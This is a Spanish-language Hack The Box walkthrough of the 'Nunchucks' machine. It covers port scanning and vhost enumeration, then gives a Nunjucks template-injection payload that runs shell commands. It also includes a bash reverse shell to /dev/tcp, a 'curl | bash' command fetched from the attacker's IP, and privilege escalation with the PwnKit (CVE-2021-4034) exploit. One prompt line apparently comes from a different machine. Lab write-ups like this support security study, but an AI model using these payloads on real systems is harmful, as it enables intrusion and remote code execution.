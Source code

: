 ```yaml
---
layout: single
title: Nunchucks - Hack The Box
excerpt: "Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI) leading to an AppArmor bug which disregards the binary&amp;#039;s AppArmor profile while executing scripts that include the shebang of the profiled application.  " 
date: 2024-04-04
classes: wide
header:
  teaser: /assets/images/htb-nunchucks/nunchucks.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Pkexec
  - SSTI
  - Nunjucks
---
```


![](/assets/images/htb-nunchucks/nunchucks.png)

Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI) leading to an AppArmor bug which disregards the binary&amp;#039;s AppArmor profile while executing scripts that include the shebang of the profiled application. 

## Portscan

```
# Nmap 7.94SVN scan initiated Fri Feb 16 16:03:22 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allPorts 10.10.11.122
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.122 ()	Status: Up
Host: 10.10.11.122 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 443/open/tcp//https///	Ignored State: closed (65532)
# Nmap done at Fri Feb 16 16:03:34 2024 -- 1 IP address (1 host up) scanned in 12.94 seconds

```
Y con esto analizamos los puertos abiertos:
```
# Nmap 7.94SVN scan initiated Fri Feb 16 16:04:20 2024 as: nmap -sCV -p22,80,443 -oN targeted 10.10.11.122
Nmap scan report for 10.10.11.122
Host is up (0.049s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 16 16:04:39 2024 -- 1 IP address (1 host up) scanned in 18.62 seconds

```
## Puerto 80

Obtenemos del escaneo de puertos la url de http://nunchucks.htb, asi que vamos a adentrarnos a ver que tiene.

![](/assets/images/htb-nunchucks/pagina1.png)

Analizamos la página y vemos que en esta primera página no se puede hacer nada asi que vamos a buscar subdominios existentes a ver que podemos encontrar:

```
Ricart0@kali:/home/kali/HTB/Nunchucks/nmap -> gobuster vhost --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u https://nunchucks.htb -t 200 -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             https://nunchucks.htb
[+] Method:          GET
[+] Threads:         200
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: store.nunchucks.htb Status: 200 [Size: 4029]
```
Añadimos el dominio a /etc/hosts, y vamos a buscar a ver que encontramos en la página.

## Página web


![](/assets/images/htb-nunchucks/pagina2.png)

Vemos que en esta página se pueden introducir datos y asi buscar alguna debilidad, vamos a introducir {{7*7}}@test.tets a ver si se podría hacer un SSTI. Vemos que nos devuelve 49@test.test y por tanto existe una debilidad SSTI.
Ahora con el burpsuite (intermediario), vamos a jugar a ver si podemos hacer algo. 
"email":"range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()@ola.ola" (el comando entre doble '{')

Vemos que si que nos devuelve el /etc/passwd de la máquina víctima, por tanto podemos ejecutar comandos. 
## Intrusión
Ahora podemos crear un index.html para poder hacer un curl:
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.5/443 0>&1

```
Ahora lo compartimos con un servidoe en python3 (python3 -m http.server 80), y nos ponemos en escucha por el puerto 443 (nc -nvlp 443). Y ahora si mandamos un curl que interpretamos con bash.

"email":"range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl 10.10.16.14 | bash')\")()@ola.ola(comando entre doble '{')

Ahora ya estaremos dentro de la máquina víctima. La flag de usuario ya podemos conseguirla. Para que la consola sea totalmente interactiva podemos hacer lo siguiente:
```
script /dev/null -c bash
(Hacemos control+c)
stty raw -echo; fg  
y hacemos reset xterm
```

## Escalada de privilegios

Ahora toca escalar privilegios para obtener la flag de root. Vemos que pkexec se ecuentra otra vez disponible como en muchas de las máquinas, muy vulnerable:
```
strapi@horizontall:~/myapi/config/environments/development$ which pkexec
which pkexec
/usr/bin/pkexec
```
Desde nuestra terminal, vamos a clonarnos este repositorio https://github.com/berdav/CVE-2021-4034 que nos va a escalar el privilegio mediante pkexec, la comprimimos (zip -r comprimido.zip CVE-2021-4034). Desde el equipo de la víctima, obtenemos el zip de nuestro equipo(wget http://10.10.16.6/comprimido.zip). Lo descomprimimos, hacemos make, y lo ejecutamos:
```
david@nunchucks:/tmp/CVE-2021-4034$ ./cve-2021-4034
# cd /root/
# cat root.txt
a5bdba1479e8a34281f6f1d73dcfd804

```

